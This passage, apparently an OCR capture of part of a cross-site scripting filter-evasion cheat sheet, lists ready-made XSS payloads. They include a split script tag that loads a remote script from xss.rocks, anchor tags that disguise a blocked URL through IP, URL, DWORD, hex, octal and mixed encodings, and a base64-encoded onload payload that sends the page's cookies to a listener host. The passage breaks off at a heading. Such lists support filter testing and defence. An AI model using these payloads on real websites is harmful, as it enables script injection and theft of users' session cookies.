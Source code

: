 ````
`<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>`

URL String Evasion
------------------

Assuming `http://www.google.com/` is programmatically disallowed:

### IP Versus Hostname

`<A HREF="http://66.102.7.147/">XSS</A>`

### URL Encoding

`<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>`

### DWORD Encoding

Note: there are other of variations of Dword encoding - see the IP Obfuscation calculator below for more details:

`<A HREF="http://1113982867/">XSS</A>`

### Hex Encoding

The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quotet is not required):

`<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>`

### Octal Encoding

Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc…:

`<A HREF="http://0102.0146.0007.00000223/">XSS</A>`

### Base64 Encoding

`<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">`

### Mixed Encoding

Let’s mix and match base encoding and throw in some tabs and newlines - why browsers allow this, I’ll never know). The tabs and newlines only work if this is encapsulated with quotes:

```
<A HREF="h 
tt  p://6	6.000146.0x7.147/">XSS</A>
```

### Protocol Resolution Bypass

`//` translates to `http://` which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a long way) and can easily bypass regex like `(ht|f)tp(s)?://` (thanks to Ozh for part of this one). You can also change the `//` to `\\\\`. You do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path URL.

`<A HREF="//www.google.com/">XSS</A>`

### Google “feeling lucky” part 1.

````